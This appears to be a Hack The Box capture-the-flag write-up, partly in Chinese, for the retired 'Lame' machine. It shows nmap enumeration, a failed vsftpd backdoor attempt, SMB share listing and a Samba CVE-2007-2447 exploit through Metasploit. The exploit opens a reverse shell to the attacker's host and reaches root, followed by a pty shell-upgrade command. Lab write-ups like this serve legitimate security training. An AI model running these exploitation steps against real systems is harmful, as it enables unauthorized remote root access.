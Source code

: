 ```yaml
---
title: HTB-Easy Lame Write UP
date: 2025-06-08 16:21:00 +0800
last_modified_at: 2025-06-08 16:21:00 +0800
categories: [HTB]
tags: [HTB]
math: true
mermaid: true
---
```



- [Nmap扫描](#nmap扫描)
- [There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?](#there-is-a-famous-backdoor-in-vsftpd-version-234-and-a-metasploit-module-to-exploit-it-does-that-exploit-work-here)
  - [笑脸漏洞(VSFTPD2.3.4)](#笑脸漏洞vsftpd234)
  - [SMB](#smb)
  - [Samba RCE CVE-2007-2447](#samba-rce-cve-2007-2447)


# Nmap扫描

    ┌──(root?kali)-[/home/kali]
    └─# nmap  -sC -sV 10.10.10.3 -p- --min-rate 4000
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 03:10 EDT
    Nmap scan report for 10.10.10.3 (10.10.10.3)
    Host is up (0.42s latency).
    Not shown: 65530 filtered tcp ports (no-response)
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 10.10.16.9
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

## 笑脸漏洞(VSFTPD2.3.4)

**尝试失败**

    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.

## SMB

    ┌──(root㉿kali)-[/home/kali]
    └─# smbmap -H 10.10.10.3
    [*] Detected 1 hosts serving SMB                                                                                                  
    [*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                                
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
        Disk                                                  	Permissions	Comment
        ----                                                  	-----------	-------
        print$                                            	NO ACCESS	Printer Drivers
        tmp                                               	READ, WRITE	oh noes!
        opt                                               	NO ACCESS	
        IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    [*] Closed 1 connections                                                                                                     
连接上去看看:`smbclient -N //10.10.10.3/tmp`

    smb: \> dir
    .                                   D        0  Sun Jun  8 03:46:24 2025
    ..                                 DR        0  Sat Oct 31 02:33:58 2020
    .ICE-unix                          DH        0  Sat Jun  7 18:46:44 2025
    vmware-root                        DR        0  Sat Jun  7 18:47:55 2025
    5542.jsvc_up                        R        0  Sat Jun  7 18:47:44 2025
    .X11-unix                          DH        0  Sat Jun  7 18:47:10 2025
    .X0-lock                           HR       11  Sat Jun  7 18:47:10 2025
    vgauthsvclog.txt.0                  R     1600  Sat Jun  7 18:46:41 2025

没有可利用文件



## Samba RCE CVE-2007-2447

***searchsploit搜索可利用漏洞***

    ┌──(kali㉿kali)-[~]
    └─$ searchsploit 'samba 3.0.20'
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                   |  Path
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                           | multiple/remote/10095.txt
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                 | unix/remote/16320.rb
    Samba < 3.0.20 - Remote Heap Overflow                                                                            | linux/remote/7701.txt
    Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                    | linux_x86/dos/36741.py
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

发现第二个可以在MSF中利用

    msf6 > search samba 3.0.2

    Matching Modules
    ================

    #   Name                                                   Disclosure Date  Rank       Check  Description
    -   ----                                                   ---------------  ----       -----  -----------
    0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
    1   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2     \_ target: Linux vsyscall                            .                .          .      .
    3     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
    4     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
    5     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
    6     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
    7     \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
    8     \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
    9     \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
    10    \_ target: DEBUG                                     .                .          .      .
    11  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    12    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
    13    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
    14    \_ target: DEBUG                                     .                .          .      .
    
    
    msf6 > use 0

    msf6 exploit(multi/samba/usermap_script) > show options

    Module options (exploit/multi/samba/usermap_script):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    CHOST                     no        The local client address
    CPORT                     no        The local client port
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    RPORT    139              yes       The target port (TCP)

    msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

***注意将本地监听端口该为openvpn的ip***
    
    msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.9
    msf6 exploit(multi/samba/usermap_script) > run
    [*] Started reverse TCP handler on 10.10.16.9:4444 
    [*] Command shell session 1 opened (10.10.16.9:4444 -> 10.10.10.3:41153) at 2025-06-08 04:02:47 -0400

    whoami
    root


获取一个新的bash shell:`python -c 'import pty; pty.spawn("/bin/bash")'`

最后分别获取makis和root的home目录下的flag